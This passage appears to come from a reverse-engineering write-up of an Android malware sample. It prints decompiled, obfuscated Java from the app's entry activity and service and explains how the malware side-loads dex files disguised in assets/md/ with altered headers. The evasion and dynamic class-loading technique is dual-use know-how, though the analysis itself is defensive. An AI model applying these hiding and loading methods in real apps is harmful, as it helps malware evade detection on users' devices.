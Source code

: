 
Now since `Xxzhfp4` is an interface class its methods should be implemented by another class but which one is the question, by far the information gathered started just from reversing from a broadcast receiver setup in manifest file but it is best to start with obvious entrypoints or if it does not leads anywhere could look for usage of reflection(`java.lang.reflect`) by malware to load classes or plugins


## Checking Entrypoint

Looking at the manifest again `.kwgldGT73YR3` is the first main activity, following code shows it implementation of the class. its easy spot the service being started `DskPs48.class` which is an important service class as mentioned before.

```java

public class kwgldGT73YR3 extends Activity {
    @Override // android.app.Activity
    @SuppressLint({"InlinedApi"})
    protected void onCreate(Bundle lFarncxj95) {
        Intent eRxc;
        String t;
        super.onCreate(lFarncxj95);
        ttXp0pXP.Logger_CheckforlogfileandLogstuff(umxgxvdHU.decode_bytes(46, 137, 123, 143, 151, 156, 133, 156, 146, 139, 78, TransportMediator.KEYCODE_MEDIA_PLAY, 128, 125, 117, 128, 111, 123, 78, 125, TransportMediator.KEYCODE_MEDIA_PLAY, 115, 124, 78, 79, 79, 79)); // [MainWnd] PROGRAM OPEN !!!
        Intent service_intent = new Intent(getApplicationContext(), DskPs48.class);
        int i = 1;
        if (!(DskPs48.vkrpzm == null || (eRxc = getIntent()) == null || (t = eRxc.getStringExtra(umxgxvdHU.decode_bytes(5, 121, TransportMediator.KEYCODE_MEDIA_PLAY, 117, 106))) == null || !t.equals(umxgxvdHU.decode_bytes(20, 135, 136, 117, 134, 136)))) { // type start
            i = 1 + 1;
        }
        service_intent.putExtra(umxgxvdHU.decode_bytes(31, 111, 145, 142, 134, 110, 143, 132, 141), i); // ProgOpen
        startService(service_intent);
        finish();
    }
}

```
### Side-loading classes

following code is the `onCreate` method of the service `DskPs48`, the important function to notice is `LrMRgPZlT3w` which looks for files in asset folder which are later loaded as classes using `InMemoryDexClassLoader` if the api version is 26 or higher otherwise it uses `DexClassLoader`. These files that are being look at is located at `asset/md/` with names `main.md` and `main_tools.md` these are dex files but with manipulated header bytes to avoid detection.

```java
public void onCreate() {
        super.onCreate();
        int lMiijn = xx1g6vO.Iaiohczl(getApplicationContext());
        umxgxvdHU.create_log_txt_file_with_timestamp();
        ttXp0pXP.Logger_CheckforlogfileandLogstuff(umxgxvdHU.decode_bytes(89, 180, 156, 200, 199, 204, 205, 203, 206, 188, 205, 200, 203, 182, 121, 158, 167, 173, 158, 171, 121, 134, 134, 134, 134, 134, 134, 134, 134, 134, 134, 134, 134, 134, 134)); // [Constructor] ENTER --------------
        this.getApplicationContext = getApplicationContext();
        this.some_flag = false;
        this.aLgxmd812 = new yyg8OvefK();
        this.xlx = new aclassofclasses();
        this.jlsi = new LrMRgPZlT3w(this.getApplicationContext.getFilesDir(), this.getApplicationContext.getApplicationInfo().nativeLibraryDir);
        if (this.jlsi.Module() == null) {
            OdlmooEkmam53(this.getApplicationContext.getAssets(), this.jlsi.ret_str_dm());
```